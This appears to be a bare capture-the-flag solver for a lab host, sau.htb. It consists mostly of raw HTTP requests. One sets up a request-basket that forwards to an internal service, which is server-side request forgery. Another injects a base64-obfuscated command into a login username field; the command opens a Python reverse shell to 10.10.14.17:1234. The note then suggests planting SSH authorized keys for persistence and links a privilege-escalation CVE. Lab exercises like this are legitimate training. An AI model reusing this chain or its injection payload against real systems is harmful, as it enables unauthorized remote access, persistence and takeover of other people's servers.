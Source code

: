 ## Solver

POST /api/baskets/postmal HTTP/1.1
Host: sau.htb:55555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://sau.htb:55555
Connection: close
Referer: http://sau.htb:55555/web
Content-Length: 121

{"forward_url":"http://127.0.0.1:80/login","proxy_response":true,"insecure_tls":false,"expand_path":false,"capacity":200}

POST /postmal HTTP/1.1
Host: sau.htb:55555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 42

username=;`echo+'cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTciLDEyMzQpKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw=='|base64+-d|bash`

After getting reverse shell, add ssh authorized keys to better reconnect

Privesc

https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7
